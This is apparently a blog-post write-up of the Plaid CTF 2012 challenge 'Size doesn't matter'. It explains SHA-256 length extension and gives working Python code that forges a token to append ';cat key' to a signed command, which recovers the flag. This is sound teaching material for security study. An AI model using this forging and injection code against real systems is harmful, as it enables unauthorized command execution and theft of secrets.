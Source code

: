 ```yaml
---
layout: post
title: Plaid CTF 2012 - "Size doesn't matter"
tags: <++>
year: 2012
month: 04
day: 30
published: true
summary: Solution for the PCTF 2012 puzzle "Size doesn't matter"
---
```


What an awesome CTF. The "Size Doesn't Matter" challenge read:

> Size Doesn't Matter [250] Password Guessing
>
>We found a pair of robot command execution services running at 23.20.239.9 ports 8888 and
>8889. Can you break into it?

The first service, when poked, asked for a command and answered with the following:

> Your verification string is valid for your command for 10 seconds: 60a33bc5e3be71846a60b2103e46cce3045e8380e04f9cd69e29c1c575284930
>
>secret: XXXXXXXX
>
>timecode: 12:32:3
>
>command: ls

The second service requested something of the form (after an update of the challenge):

> Please send command1;command2;command3::verification

One shall be enough. :-)

After playing a bit with it and seeing that the command input was stripped and filtered to
only allow letters, we started fiddling with the token. Looks like SHA-256 in length, so
assuming it is, it could be subject to a length extension attack.

Length extension attacks are basically a property of Merkle–Damgård construction. Think of
it this way: a SHA-2 digest is essentially the internal function state after consuming the
message, its padding (if any) plus the length in bits. If you wanted, you could grab it,
initialize a SHA-2 implementation with it and the length of the processed message thus
far, and continue hashing additional blocks. The end result is the digest of:

    [ Initial message | 0x80 | Padding | Length | Concatenated message ]

Now as the commands were fed to bash by a Python script, concatenating a semicolon plus a
`cat key` will presumably get us where we want. The good folks at
[vnsecurity](http://www.vnsecurity.net) had already provided an implementation I modified.
So off we go,

```python
#!/usr/bin/env python
import sha256 # PyPy's sha256 module works.
import struct

class shaext:
    """
    Performs SHA-256 length extension.
    """
    def __init__(self, origtext, keylen, origsig):
        self.origtext = origtext
        self.keylen = keylen
        self.origsig = origsig
        self.addtext = ''
        self.init()

    def init(self):
        count = (self.keylen + len(self.origtext)) * 8
        index = (count >> 3) &amp; 0x3FL
        padLen = 120 - index
        if index < 56:
            padLen = 56 - index
        padding = '\x80' + '\x00' * 63

        self.input = self.origtext + padding[:padLen] + struct.pack('<Q', count)
        count = (self.keylen + len(self.input)) * 8
        self.impl = sha256.sha256()
        self.impl._sha['count_lo'] = count
        self.impl._sha['count_hi'] = 0

        _digest = self.origsig.decode("hex")
        self.impl._sha['digest'] = [x for x in struct.unpack("<IIIIIIII", _digest)]

    def add(self, addtext):
        self.addtext = self.addtext + addtext
        self.impl.update(addtext)

    def final(self):
        new_sig = self.impl.hexdigest()
        new_msg = self.input + self.addtext
        return (new_msg, new_sig)
```

and then we fiddle with the two services, like so:

```python
import socket, time
import shaext

IP='...'
PORT1=8888
PORT2=8889
COMMAND=''

while True:
    sock_verifier = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock_verifier.connect((IP,PORT1))
    COMMAND = raw_input('cmd? ')
    sock_verifier.send((COMMAND + '\x0a'))
    verification = sock_verifier.recv(256)
    sock_verifier.close()

    print(verification)
    token_begin = verification.find('seconds: ') + len('seconds: ')
    token_end   = verification.find('\x0a');
    token       = verification[token_begin : token_end]
    timecode    = verification[verification.find('timecode: ') + 10 : verification.find('timecode: ') + 17]

    extension = shaext.shaext(COMMAND, 8 + len(timecode), token)
    extension.add(';cat key')
    (new_msg, new_token) = extension.final()
    print('[+] New command: ' + new_msg)
    print('[+] New token  : ' + new_token)

    command_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    command_sock.connect((IP, PORT2))
    buf = new_msg + '::' + new_token + '\x0a'
    command_sock.send(buf)
    data_rcv2 = command_sock.recv(4096)
    print(data_rcv2)
    command_sock.close()
```

Which nets us the key:

> my_hash_is_longer_than_your_hash
